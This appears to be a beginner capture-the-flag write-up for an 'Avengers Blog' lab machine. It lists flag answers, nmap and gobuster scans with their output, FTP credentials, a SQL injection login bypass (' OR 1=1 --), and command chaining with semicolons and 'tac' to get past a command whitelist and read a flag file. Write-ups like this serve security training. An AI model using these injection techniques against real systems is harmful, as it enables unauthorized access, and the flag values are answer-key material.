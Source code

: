 > Avengers Blog | Beginner

1. On the deployed Avengers machine you recently deployed, get the flag1 cookie value.

```
cookie_secrets
```

2. Look at the HTTP response headers and obtain flag 2.

```
headers_are_important
```

# Nmap

nmap -sC -sV -T4 -Pn -vvv -A -oN nmap/initial 10.10.30.203

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Node.js Express framework
|_http-favicon: Unknown favicon MD5: E084507EB6547A72F9CEC12E0A9B7A36
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Avengers! Assemble!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# FTP

## FTP Credentials

`groot`:`iamgroot`

We got `flag3.txt` in `files` directory.

```
8fc651a739befc58d450dc48e1f1fd2e
```

# Gobuster

gobuster dir -u http://10.10.30.203 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial

```
/home                 (Status: 302) [Size: 23] [--> /]
/img                  (Status: 301) [Size: 173] [--> /img/]
/Home                 (Status: 302) [Size: 23] [--> /]     
/assets               (Status: 301) [Size: 179] [--> /assets/]
/portal               (Status: 200) [Size: 1409]              
/css                  (Status: 301) [Size: 173] [--> /css/]   
/js                   (Status: 301) [Size: 171] [--> /js/]    
/logout               (Status: 302) [Size: 29] [--> /portal]
```

Looking at `/portal` we got a login page. And trying username as `' OR 1=1 --` and password as `' or 1=1--` gives us access.

And we can run commands here. Woow!! But some commands are whitelisted. Let's try to join commands.

```
cd ../;ls => It works and we have flag5.txt
```

But cat command is not allowed. So let's try for `tac` command.

`cd ,,/;ls;tac flag5.txt`

# flag5.txt

```
d335e2d13f36558ba1e67969a1718af7
```